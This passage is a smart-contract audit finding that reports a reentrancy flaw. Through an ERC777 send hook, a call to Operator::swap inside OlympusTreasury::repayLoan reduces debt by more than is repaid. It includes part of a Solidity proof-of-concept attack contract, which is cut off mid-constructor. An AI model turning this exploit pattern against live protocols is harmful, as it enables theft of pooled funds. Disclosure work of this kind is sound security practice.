 

***

## [[M-19] TRSRY: reenter from `OlympusTreasury::repayLoan` to `Operator::swap`](https://github.com/code-423n4/2022-08-olympus-findings/issues/403)
_Submitted by zzzitron_

One can repay loan to the treasury with the value from the `Operator::swap`.

Condition:

*   the reserve token in Operator has hook for sender (like ERC777)
*   the debt is the same token as reserve

### Proof of Concept

The below code snippet shows a part of proof of concept for reentrancy attack, which is based on `src/test/policies/Operator.t.sol`. The full test code can be found [here](https://gist.github.com/zzzitron/651e1451ac1ff21be8a72b502b26f7cb), and [git diff from the `Operator.t.sol`](https://gist.github.com/zzzitron/5b8ebe635ed1939f18a100c7940b4f11).

Let's say that the reserve token implements ERC777 with the hook for the sender [(see weird erc20)](https://github.com/d-xo/weird-erc20#reentrant-calls). If the attacker can take debt of the reserve currency for the attack contract `Reenterer`, the contract can call `OlympusTreasury::repayLoan` and in the middle of repay call `Operator::swap` function. The `swap` function will modify the reserve token balance of treasury and the amount the attacker swapped will be also be used for the `repayLoan`.

In the below example, the attacker has debt of 1e18, and repays 1e17. But since the `swap` function is called in the `repayLoan`, the debt is reduced 1e17 more then it should. And the swap happened as expected so the attack has the corresponding ohm token.

```solidity
/// Mock to simulate the senders hook
/// for simplicity omitted the certain aspects like ERC1820 registry and etc.
contract MockERC777 is MockERC20 {
    constructor () MockERC20("ERC777", "777", 18) {}

    function transferFrom(address from, address to, uint256 amount) public override returns (bool) {
        _callTokenToSend(from, to, amount);
        return super.transferFrom(from, to, amount);
        // _callTokenReceived(from, to, amount);
    }

    // simplified implementation for ERC777
    function _callTokenToSend(address from, address to, uint256 amount) private {
      if (from != address(0)) {
        IERC777Sender(from).tokensToSend(from, to, amount);
      }
    }
}

interface IERC777Sender {
  function tokensToSend(address from, address to, uint256 amount) external;
}

/// Concept for an attack contract
contract Reenterer is IERC777Sender {
  ERC20 public token;
  Operator public operator;
  bool public entered;

  constructor(address token_, Operator op_) {
    token = ERC20(token_);
```